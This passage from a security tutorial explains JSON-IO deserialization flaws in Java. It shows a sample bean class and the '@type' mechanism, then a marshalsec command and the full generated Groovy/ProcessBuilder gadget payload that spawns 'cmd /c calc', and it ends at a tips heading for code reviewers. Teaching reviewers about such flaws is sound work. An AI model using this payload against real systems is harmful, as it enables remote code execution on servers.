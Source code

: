 ```java
         
        private String name;
        private int width;
        private int height;
        
        /**
         * Getters and Setters
         */
        public String getName() {
            return name;
        }
        public void setName(String name) {
            this.name = name;
        }
        public int getWidth() {
            return width;
        }
        public void setWidth(int width) {
            this.width = width;
        }
        public int getHeight() {
            return height;
        }
        public void setHeight(int height) {
            this.height = height;
        }    
    }
}
```
JSON-IO allows to specify the type of the object to be deserialized within the JSON body, using the `@type` key. The concept is the same as the other type of deserialisation issues, we need just to find a POP chain to achieve RCE. 

In [this](https://github.com/no-sec-marko/marshalsec/blob/master/marshalsec.pdf) research, M. Becheler, enumerates various JSON libraries and each method used for RCE exploitation. As part of the research, he provided an interesting tool, to automatically generates payloads for these libraries. For example, let's consider the following payload then:

```bash
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"

{"@type":"java.util.Arrays$ArrayList","@items":[{"@id":2,"@type":"groovy.util.Expando","expandoProperties":{"@type":"java.util.HashMap","hashCode":{"@type":"org.codehaus.groovy.runtime.MethodClosure","method":"start","delegate":{"@id":1,"@type":"java.lang.ProcessBuilder","command":{"@type":"java.util.ArrayList","@items":["cmd","/c","calc"]},"directory":null,"environment":null,"redirectErrorStream":false,"redirects":null},"owner":{"@ref":1},"thisObject":null,"resolveStrategy":0,"directive":0,"parameterTypes":[],"maximumNumberOfParameters":0,"bcw":null}}},{"@type":"java.util.HashMap","@keys":[{"@ref":2},{"@ref":2}],"@items":[{"@ref":2},{"@ref":2}]}]}
```

**Tips for Source Code reviewers**

To find this kind of vulnerability it is usually enough to search the code for common regexes, like: 
